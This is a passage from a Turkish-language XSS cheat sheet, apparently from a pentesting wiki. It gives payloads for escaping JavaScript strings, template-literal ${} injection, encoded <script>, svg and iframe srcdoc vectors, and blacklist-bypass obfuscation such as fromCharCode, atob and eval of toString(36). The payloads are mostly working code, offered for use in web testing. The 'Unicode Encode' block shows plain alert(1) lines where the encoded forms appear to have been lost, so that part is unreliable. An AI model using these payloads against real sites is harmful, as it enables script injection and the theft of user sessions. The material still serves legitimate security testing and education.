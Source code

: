 ### JS kodu içinde

Eğer `<>` temizleniyorsa, **girdiğiniz yerin** **string'ini kaçırabilir** ve **rastgele JS çalıştırabilirsiniz**. JS sözdizimini **düzeltmek** önemlidir, çünkü herhangi bir hata varsa, JS kodu çalıştırılmaz:
```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```
### Şablon Literalleri \`\`

Tekil ve çift tırnakların yanı sıra **dizeleri** oluşturmak için JS ayrıca **ters tırnakları** **` `` `** kabul eder. Bu, `${ ... }` sözdizimini kullanarak **gömülü JS ifadeleri** sağlamasına olanak tanıdığı için şablon literalleri olarak bilinir.\
Bu nedenle, eğer girdinizin bir JS dizesi içinde ters tırnaklar kullanılarak **yansıtıldığını** bulursanız, **keyfi JS kodu** çalıştırmak için `${ ... }` sözdizimini kötüye kullanabilirsiniz:

Bu, şu şekilde **kötüye kullanılabilir**:
```javascript
;`${alert(1)}``${`${`${`${alert(1)}`}`}`}`
```

```````````````javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop() {
return loop
}
loop``````````````
```````````````
### Kodun kodlanmış yürütülmesi
```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>alert(1)</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>alert(1)</iframe>">
```
### Unicode Encode JS execution
```javascript
alert(1)
alert(1)
alert(1)
```
### JavaScript kara liste atlatma teknikleri

**Dizeler**
```javascript
"thisisastring"
'thisisastrig'
`thisisastring`
/thisisastring/ == "/thisisastring/"
/thisisastring/.source == "thisisastring"
"\h\e\l\l\o"
String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
"\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
"\164\150\151\163\151\163\141\163\164\162\151\156\147"
"\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
"\u{74}\u{68}\u{69}\u{73}\u{69}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
"\a\l\ert\(1\)"
atob("dGhpc2lzYXN0cmluZw==")
eval(8680439..toString(30))(983801..toString(36))
```
**Özel kaçışlar**
```javascript
"\b" //backspace
```